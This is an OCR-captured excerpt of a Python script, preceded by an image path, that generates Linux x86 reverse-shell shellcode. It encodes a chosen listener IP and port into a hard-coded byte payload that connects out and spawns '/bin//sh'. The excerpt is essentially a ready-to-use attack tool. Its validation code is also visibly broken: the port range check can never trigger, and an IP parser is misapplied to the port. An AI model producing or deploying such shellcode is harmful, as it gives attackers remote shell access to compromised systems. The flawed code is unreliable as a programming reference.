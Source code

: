 ```py
    if int(port) < 1 and int(port) > 65535:
        print (RED + "port number must be in 1-65535" + ENDC)
        sys.exit()
    if int(port) >= 1 and int(port) < 1024:
        print (YELLOW + "you must be a root" + ENDC)
    if len(host.split(".")) != 4:
        print (RED + "invalid host address :(" + ENDC)
        sys.exit()

    h = socket.inet_aton(host).hex()
    hl = [h[i:i+2] for i in range(0, len(h), 2)]
    if "00" in hl:
        print (YELLOW)
        print ("host address will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    h1, h2, h3, h4 = hl

    shellcode_host = "\\x" + h1 + "\\x" + h2
    shellcode_host += "\\x" + h3 + "\\x" + h4
    print (YELLOW)
    print ("hex host address:")
    print (" x" + h1 + "x" + h2 + "x" + h3 + "x" + h4)
    print (ENDC)

    p = socket.inet_aton(port).hex()[4:]
    pl = [p[i:i+2] for i in range(0, len(p), 2)]
    if "00" in pl:
        print (YELLOW)
        print ("port will cause null bytes \
        to be in shellcode :(")
        print (ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW)
    print ("hex port: x" + p1 + "x" + p2)
    print (ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd"
    shellcode += "\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
    shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
```